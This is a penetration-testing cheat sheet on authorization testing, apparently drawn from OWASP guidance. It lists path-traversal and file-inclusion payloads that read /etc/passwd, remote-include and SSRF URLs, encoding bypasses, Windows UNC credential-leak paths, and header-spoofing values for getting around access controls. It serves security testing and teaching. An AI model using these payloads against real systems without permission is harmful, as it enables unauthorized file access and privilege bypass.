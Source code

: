 # Authorization Testing
---
## Navigation
- **[Directory Traversal File Include LFI](#Directory%20Traversal%20File%20Include%20LFI)**
- **[Bypassing Authorization Schema](#Bypassing%20Authorization%20Schema)**
- [Rails-extension](#Rails-extension)

---
# Directory Traversal File Include (LFI)
### Input Vectors Enumeration
checks to be performed:
-   Are there request parameters which could be used for file-related operations?
-   Are there unusual file extensions?
-   Are there interesting variable names?
    -   `http://example.com/getUserProfile.jsp?item=ikki.html`
    -   `http://example.com/index.php?file=content`
    -   `http://example.com/main.cgi?home=index.html`
-   Is it possible to identify cookies used by the web application for the dynamic generation of pages or templates?
    -   `Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`
    -   `Cookie: USER=1826cc8f:PSTYLE=GreenDotRed`
### Testing Techniques
```
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd
```

For the cookies example:

```
Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

It’s also possible to include files and scripts located on external website:

```
http://example.com/index.php?file=http://www.owasp.org/malicioustxt
```

If protocols are accepted as arguments, as in the above example, it’s also possible to probe the local filesystem this way:

```
http://example.com/index.php?file=file:///etc/passwd
```

If protocols are accepted as arguments, as in the above examples, it’s also possible to probe the local services and nearby services:

```
http://example.com/index.php?file=http://localhost:8080
http://example.com/index.php?file=http://192.168.0.2:9080
```

The following example will demonstrate how it is possible to show the source code of a CGI component, without using any path traversal characters if it's present in the same directory.

```
http://example.com/main.cgi?home=main.cgi
```
> **Tip:** It’s a common mistake by developers to not expect every form of encoding and therefore only do validation for basic encoded content. If at first the test string isn’t successful, try another encoding scheme.

Each operating system uses different characters as path separator:

-   Unix-like OS:
    -   root directory: `/`
    -   directory separator: `/`
-   Windows OS:
    -   root directory: `<drive letter>:`
    -   directory separator: `\` or `/`
-   Classic macOS:
    -   root directory: `<drive letter>:`
    -   directory separator: `:`

We should take in to account the following character encoding mechanisms:

-   URL encoding and double URL encoding
    -   `%2e%2e%2f` represents `../`
    -   `%2e%2e/` represents `../`
    -   `..%2f` represents `../`
    -   `%2e%2e%5c` represents `..\`
    -   `%2e%2e\` represents `..\`
    -   `..%5c` represents `..\`
    -   `%252e%252e%255c` represents `..\`
    -   `..%255c` represents `..\` and so on.
-   Unicode/UTF-8 Encoding (it only works in systems that are able to accept overlong UTF-8 sequences)
    -   `..%c0%af` represents `../`
    -   `..%c1%9c` represents `..\`
 
 There are other OS and application framework specific considerations as well. For instance, Windows is flexible in its parsing of file paths.

-   Windows shell: Appending any of the following to paths used in a shell command results in no difference in function:
    -   Angle brackets `<` and `>` at the end of the path
    -   Double quotes (closed properly) at the end of the path
    -   Extraneous current directory markers such as `./` or `.\\`
    -   Extraneous parent directory markers with arbitrary items that may or may not exist:
        -   `file.txt`
        -   `file.txt...`
        -   `file.txt<spaces>`
        -   `file.txt""""`
        -   `file.txt<<<>>><`
        -   `./././file.txt`
        -   `nonexistant/../file.txt`

**Windows API**: The following items are discarded when used in any shell command or API call where a string is taken as a filename:
    -   `periods`
    -   `spaces`
-   **Windows UNC Filepaths**: Used to reference files on SMB shares. Sometimes, an application can be made to refer to files on a remote UNC filepath. If so, the Windows SMB server may send stored credentials to the attacker, which can be captured and cracked. These may also be used with a self-referential IP address or domain name to evade filters, or used to access files on SMB shares inaccessible to the attacker, but accessible from the web server.
    -   `\\server_or_ip\path\to\file.abc`
    -   `\\?\server_or_ip\path\to\file.abc`
-   **Windows NT Device Namespace**: Used to refer to the Windows device namespace. Certain references will allow access to file systems using a different path.
    -   May be equivalent to a drive letter such as `c:\`, or even a drive volume without an assigned letter: `\\.\GLOBALROOT\Device\HarddiskVolume1\`
    -   Refers to the first disc drive on the machine: `\\.\CdRom0\`

# Bypassing Authorization Schema
### Horizontal Bypassing Authorization Schema
-   Is it possible to access resources that should be accessible to a user that holds a different identity with the same role or privilege?
-   Is it possible to operate functions on resources that should be accessible to a user that holds a different identity?

**For each role:**
1.  Register or generate two users with identical privileges.
2.  Establish and keep two different sessions active (one for each user).
3.  For every request, change the relevant parameters and the session identifier from token one to token two and diagnose the responses for each token.
4.  An application will be considered vulnerable if the responses are the same, contain same private data or indicate successful operation on other users’ resource or data.

### Vertical Bypassing Authorization Schema

**For each role:**

1.  Register a user.
2.  Establish and maintain two different sessions based on the two different roles.
3.  For every request, change the session identifier from the original to another role’s session identifier and evaluate the responses for each.
4.  An application will be considered vulnerable if the weaker privileged session contains the same data, or indicate successful operations on higher privileged functions.

### Testing for Special Request Header Handling
Some applications support non-standard headers such as `X-Original-URL` or `X-Rewrite-URL` in order to allow overriding the target URL in requests with the one specified in the header value.
### Other Headers to Consider
-   Headers:
    -   `X-Forwarded-For`
    -   `X-Forward-For`
    -   `X-Remote-IP`
    -   `X-Originating-IP`
    -   `X-Remote-Addr`
    -   `X-Client-IP`
-   Values
    -   `127.0.0.1` (or anything in the `127.0.0.0/8` or `::1/128` address spaces)
    -   `localhost`
    -   Any [RFC1918](https://tools.ietf.org/html/rfc1918) address:
        -   `10.0.0.0/8`
        -   `172.16.0.0/12`
        -   `192.168.0.0/16`
    -   Link local addresses: `169.254.0.0/16`

>Note: Including a port element along with the address or hostname may also help bypass edge protections such as web application firewalls, etc. For example: `127.0.0.4:80`, `127.0.0.4:443`, `127.0.0.4:43982`

## Rails-extension
You can access the data in different formats by modifying the extension in url e.g `/users/1 -> /users/1.json` -> [Reference](https://pentesterlab.com/exercises/autho_03/course)
